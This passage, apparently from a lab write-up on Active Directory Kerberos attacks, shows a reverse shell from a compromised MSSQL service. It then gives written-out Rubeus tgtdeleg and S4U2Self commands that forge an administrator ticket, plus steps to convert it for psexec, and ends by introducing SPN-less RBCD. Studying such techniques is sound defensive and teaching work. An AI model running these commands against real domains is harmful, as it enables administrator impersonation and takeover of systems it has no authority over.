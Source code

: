 A machine account's authentication information is normally completely unavailable to unprivileged users, but Benjamin Delpy discovered a trick where a current user's TGT can be obtained without additional permissions, making this privilege escalation method available in cases where a service instance like a MSSQL server has been compromised, without further setup.

In my lab I have a default installation of MSSQL running under a virtual account, I used xp_cmdshell to open a reverse shell:

![bec094a4318998e6eca6937eb0700339.png](/_resources/bec094a4318998e6eca6937eb0700339.png)

Benjamin Delpy's [tgtdeleg trick](https://github.com/GhostPack/Rubeus#tgtdeleg) has been integrated in rubeus and can therefore be used to obtain the TGT we need to make a S4U2Self request:
```text
rubeus tgtdeleg /nowrap
```

![b91ab99e518eb39dcf9f20567e247d93.png](/_resources/b91ab99e518eb39dcf9f20567e247d93.png)

Now this ticket can be used to request an impersonation TGS with the S4U attack, unlike the other scenarios we also include the `/self` and `/altservice` options, this is not a full RBCD attack as we don't need the S4U2Proxy step. `/altservice` is simply the SPN we want for our TGS:
```
rubeus s4u /impersonateuser:administrator /self /altservice:cifs/sql1 /domain:its-piemonte.local /nowrap /ticket:<TGTDELEG_TICKET>
```

![c111c2ce2b5bb2a103ef774331a4dd04.png](/_resources/c111c2ce2b5bb2a103ef774331a4dd04.png)

Like shown above we can use ticketConverter to convert the rubeus output into a file we can use with tools like psexec, since our access is currently a reverse shell on our Linux machine:
```text
echo <RUBEUS_TICKET> | base64 -d > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
```

![45beb8fa24a8ee4e88c60fe3c0791551.png](/_resources/45beb8fa24a8ee4e88c60fe3c0791551.png)

The CCACHE ticket can be used with the kerberos client as usual, by setting the KRB5CCNAME environment variable to its path. If we place `KRB5CCNAME=ticket.ccache` before the connection command we don't even need the kerberos client installed:

![cb51bd0991a7b3401b2e4a1cf4285837.png](/_resources/cb51bd0991a7b3401b2e4a1cf4285837.png)

---

## SPN-less RBCD

Normally the S4U2Self+Proxy trick only works when we are in control of an account with an SPN, this is because these protocol extensions are meant to be used for delegating and impersonating users on other services, which in kerberos are represented as individual instances by an SPN. Because a normal user doesn't have the permissions of changing its own ServicePrincipalName attribute, in the case a domain has `ms-DS-MachineAccountQuota` set to 0 and we can't control other users with an SPN at least in theory there wouldn't be a way of exploiting RBCD the usual way.

